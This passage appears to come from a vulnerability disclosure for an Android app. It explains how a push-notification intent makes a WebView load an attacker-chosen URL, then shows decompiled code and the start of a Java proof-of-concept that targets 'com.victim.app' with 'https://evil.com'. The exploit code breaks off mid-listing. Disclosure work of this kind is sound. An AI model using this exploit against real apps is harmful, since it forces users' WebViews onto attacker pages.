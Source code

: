 
#### 5. **Loading the Malicious URL in WebView**

The `PushNotificationsManager.INSTANCE.createIntentToRichURL()` method builds an intent containing the attacker-controlled URL and passes it to the WebView.

```java
@NotNull
public final Intent createIntentToRichURL(@NotNull Context context, @NotNull PushNotification notification) {
    Intrinsics.checkNotNullParameter(context, "context");
    Intrinsics.checkNotNullParameter(notification, "notification");

    Intent intent = new Intent(context, (Class<?>) NotificationWebViewActivity.class);
    intent.putExtra(NotificationWebViewActivity.URL_NOTIFICATION_PARAM, notification.getE());
    intent.putExtra(NotificationWebViewActivity.ID_NOTIFICATION_PARAM, notification.getF6923a());
    return intent;
}
```

`notification.getE()` will read the property "tp_rich_url" and notification.getF6923a() will read "tp_id" from the notification object that we sent using the intent and the URL will be loaded into the WebView.

---

### Proof of Concept (PoC)

```java
public class MainActivity extends AppCompatActivity {

    public static final String ON_NOTIFICATION_OPENED_ACTION = "victim.PUSH_NOTIFICATION_OPENED";
    public static final String EXTRA_NOTIFICATION = "victim.PUSH_NOTIFICATION";
    public static final String EXTRA_NOTIFICATION_ID = "tp_id";
    public static final String EXTRA_NOTIFICATION_RICH_URL = "tp_rich_url";
    public static final String MY_MALICIOUS_URL = "https://evil.com";

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);

        Button triggerButton = findViewById(R.id.triggerButton);

        triggerButton.setOnClickListener(new View.OnClickListener() {
            @Override
            public void onClick(View v) {
                triggerWebview();
            }
        });
    }

    private void triggerWebview() {
        try {
            Intent intent = new Intent(ON_NOTIFICATION_OPENED_ACTION);
            intent.setComponent(new ComponentName("com.victim.app", "com.victim.app.app.base.TransitionFlowManager"));

            ClassLoader targetClassLoader = getForeignClassLoader("com.victim.app");
            Class<?> pushNotificationClass = targetClassLoader.loadClass("com.victim.app.managers.notifications.PushNotification");

            // Get the Builder class from PushNotification
            Class<?> builderClass = pushNotificationClass.getDeclaredClasses()[0];

            Constructor<?> builderConstructor = builderClass.getConstructor();
```